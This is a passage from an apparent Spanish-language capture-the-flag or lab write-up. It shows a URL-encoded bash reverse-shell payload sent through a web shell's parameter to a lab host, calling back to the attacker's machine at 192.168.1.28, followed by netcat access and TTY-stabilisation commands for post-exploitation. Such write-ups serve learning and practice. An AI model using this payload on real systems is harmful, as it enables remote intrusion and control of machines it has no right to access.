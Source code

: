 
Y en la URL vulnerable:
```
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.1.28/1234 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto. Y siendo la **192.168.1.28** la **IP** de mi máquina atacante.
<p align="center">
    <img src="../img/Pasted_image_20250109192456.png" width="500">
</p>

Si vamos a donde estábamos a la escucha con `netcat`, vemos que obtuvimos acceso a la máquina.

<p align="center">
    <img src="../img/Pasted_image_20250109192540.png" width="500">
</p>

---

## Post-Explotación

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
```
